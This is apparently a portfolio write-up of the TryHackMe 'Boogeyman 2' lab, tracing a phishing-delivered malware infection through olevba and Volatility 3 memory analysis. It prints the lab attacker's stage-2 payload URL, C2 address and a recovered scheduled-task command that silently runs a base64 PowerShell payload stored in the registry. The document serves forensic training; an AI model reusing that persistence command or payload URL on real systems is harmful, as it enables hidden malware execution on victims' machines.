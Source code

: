 # Boogeyman 2 — Memory Forensics CTF Writeup (Portfolio Edition)

**Note:** This is a TryHackMe Lab CTF.

URL: [https://tryhackme.com/room/boogeyman2]

---

## == START OF INVESTIGATION ==

### Independent Phase: Initial Recon & Execution Flow

**Scenario:** A phishing campaign led to a staged malware infection. My goal was to trace the execution, identify the payload stages, extract malicious binaries, and uncover C2 infrastructure.

* **Phishing Email From:** `[REDACTED_EMAIL]`
* **Victim Email:** `[REDACTED_EMAIL]`

**Malicious Attachment**

* Filename: `Resume_WesleyTaylor.doc` (renamed to `Malware.doc`)
* SHA256: `52c4384a0b9e248b95804352ebec6c5b`

Tool used:

```bash
olevba Malware.doc
```

**Revealed Stage 2 Payload URL**:

```
https://files.boogeymanisback.lol/aa2a9c53cbb80416d3b47d85538d9971/update.png
```

> Notably, this is a disguised `.exe` file behind a `.png` extension.

**Macro executed via:** `wscript.exe`
**Stage 2 Payload Path:** `C:\ProgramData\update.js`

---

## Volatility 3 Forensic Analysis (Independent Phase)

Memory image used: `WKSTN-2961.raw`

### Plugins used:

```bash
vol -f WKSTN-2961.raw windows.pstree.PsTree
vol -f WKSTN-2961.raw windows.psscan.PsScan
vol -f WKSTN-2961.raw windows.pslist.PsList
vol -f WKSTN-2961.raw windows.strings.Strings
```

### Key Findings:

* PID of `wscript.exe`: **4260**
* Parent process: `WINWORD.EXE` (PID: 1124)
* `windows.strings.Strings` plugin wasn’t fruitful initially

### Honest Note:

> I originally answered question 10 by pasting the answer from question 5 and accidentally "autocorrected" `.png` to `.exe`. It turned out correct, but I wasn’t satisfied. So I paused and researched how to *properly* find the answer. That process is documented below.

---

## Research Phase: Digging Deeper

```bash
vol -f WKSTN-2961.raw windows.filescan | grep -i update
```

Found: `update[1].exe`

Dumped the suspicious file:

```bash
vol -f WKSTN-2961.raw windows.dumpfiles --virtaddr 0xe58f8928f8b0
```

File verification and inspection:

```bash
file 'file.0xe58f8928f8b0...update[1].exe.dat'
cat 'file.0xe58f8928f8b0...update[1].exe.dat'
```

Unfortunately, this didn't show useful content.
So I pivoted to string searches:

```bash
strings WKSTN-2961.raw | grep boogeymanisback.lol
```

**Discovered:**

```
https://files.boogeymanisback.lol/aa2a9c53cbb80416d3b47d85538d9971/update.exe
```

---

## 👁️ C2 and Persistence Discovery

### C2 Discovery

```bash
vol -f WKSTN-2961.raw windows.netscan.NetScan
```

* **C2 IP/Port:** `128.199.95.189:8080`
* **Malicious Binary:** `updater.exe` (PID: 6216)
* **Path:** `C:\Windows\Tasks\Updater.exe`

### Additional IOC

```
\Users\[REDACTED_USER]\AppData\Local\Microsoft\Windows\INetCache\Content.Outlook\WQHGZCFI\Resume_WesleyTaylor (002).doc
```

---

## Persistence Mechanism (Researched)

Tried various searches:

```bash
vol -f WKSTN-2961.raw windows.filescan | grep -i "schedule"
```

Identified relevant Windows Task Scheduler path:

```
\Windows\System32\winevt\Logs\Microsoft-Windows-TaskScheduler
```

Discovered event IDs 106 (task creation) and 140 (task update) might help, but no plugin found to extract them directly.

Eventually:

```bash
strings WKSTN-2961.raw | grep schtasks
```

**Found Persistence Mechanism:**

```powershell
schtasks /Create /F /SC DAILY /ST 09:00 /TN Updater /TR "powershell.exe -NonI -W hidden -c 'IEX ([Text.Encoding]::UNICODE.GetString([Convert]::FromBase64String((gp HKCU:\Software\Microsoft\Windows\CurrentVersion debug).debug)))'"
```

---

## == END OF INVESTIGATION ==

```
C:\Windows\Tasks\Updater.exe
HKCU:\Software\Microsoft\Windows\CurrentVersion\debug
```

---

## Lessons Learned

* **Validate Guesses:** Accidental correctness isn’t understanding. I corrected myself by seeking the right tools.
* **Volatility Plugin Depth:** `filescan` and `dumpfiles` offer strong binary hunting capability.
* **`.strings` Can Save the Day:** Sometimes simple string searches yield faster results than parsing plugin outputs.
* **C2 Hunting:** Recurring ports and filenames (like `updater.exe` and port `8080`) can signal threat actor habits.
* **Persistence:** Attackers love to bury payloads in scheduled tasks and registry keys. Check both.
* **Walkthroughs as Compass, Not Crutch:** When used to guide your own execution, they strengthen—not weaken—your learning.

---

```
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⣠⣤⣔⠒⠀⠉⠉⠢⡀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⣀⣀⠠⠄⠒⠘⢿⣿⣿⣿⣿⣆⠀⠀⠀⠀⠱⡀⠀⠀⠀⠀⠀⠀
⢺⣦⢻⣿⣿⣿⣿⣄⠀⠀⠀⠀⠈⢿⡿⠿⠛⠛⠐⣶⣿⣿⣿⣧⡀⠀⠀⠀⠀⠀
⠈⢿⣧⢻⣿⣿⣿⣿⣆⣀⣠⣴⣶⣿⡄⠀⠀⠀⠀⠘⣿⣿⣿⣿⣧⠀⠀⠀⠀⠀
⠀⠀⢿⣧⢋⠉⠀⠀⠀⠹⣿⣿⣿⣿⣿⡆⣀⣤⣤⣶⣮⠀⠀⠀⠀⠣⠀⠀⠀⠀
⠀⠀⠈⢿⣧⢂⠀⠀⠀⠀⢘⠟⠛⠉⠁⠀⠹⣿⣿⣿⣿⣷⡀⠀⠀⠀⢣⠀⠀⠀
⠀⠀⠀⠈⢿⣧⢲⣶⣾⣿⣿⣧⡀⠀⠀⠀⢀⣹⠛⠋⠉⠉⠉⢿⣿⣿⣿⣧⠀⠀
⠀⠀⠀⠀⠀⢿⣧⢻⣿⣿⣿⡿⠷⢤⣶⣿⣿⣿⣧⡀⠀⠀⠀⠈⢻⣿⣿⣿⣧⠀
⠀⠀⠀⠀⠀⠈⢿⣧⢛⠉⠁⠀⠀⠀⢻⣿⣿⣿⡿⠗⠒⠒⠈⠉⠉⠉⠙⡉⠛⡃
⠀⠀⠀⠀⠀⠀⠈⢿⣯⢂⠀⠀⠀⡀⠤⠋⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠈⢿⣯⠐⠈⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠈⢿⣧⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⢿⣇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⢿⣧⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⢿⣧⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⢿⣧⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⢿⣧⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⢿⡆⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
```
